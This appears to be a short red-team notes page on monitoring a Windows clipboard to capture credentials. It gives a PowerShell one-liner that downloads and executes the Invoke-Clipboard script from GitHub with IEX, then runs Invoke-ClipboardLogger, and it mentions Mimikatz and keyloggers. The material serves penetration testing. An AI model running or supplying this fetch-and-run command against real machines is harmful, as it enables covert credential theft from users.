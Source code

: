 # Clipboard

### <mark style="color:green;">Clipboard</mark>

&#x20;[Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1)

<mark style="color:green;">**Monitor the Clipboard with PowerShell**</mark>

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```

The script will start to monitor for entries in the clipboard and present them in the PowerShell session. We need to be patient and wait until we capture sensitive information.

<mark style="color:green;">**Capture Credentials from the Clipboard with Invoke-ClipboardLogger**</mark>

```powershell-session
Invoke-ClipboardLogger
```

{% hint style="info" %}
Note: User credentials can be obtained with tools such as Mimikatz or a keylogger. C2 Frameworks such as Metasploit contain built-in functions for keylogging.
{% endhint %}
